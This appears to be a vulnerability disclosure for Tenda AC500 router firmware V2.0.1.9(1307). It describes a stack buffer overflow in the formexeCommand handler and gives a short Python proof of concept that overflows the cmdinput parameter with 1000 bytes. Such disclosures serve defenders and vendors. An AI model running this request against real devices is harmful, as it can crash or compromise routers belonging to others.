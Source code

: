 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(s, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240308164307690](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308164307690.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410095430899.png)
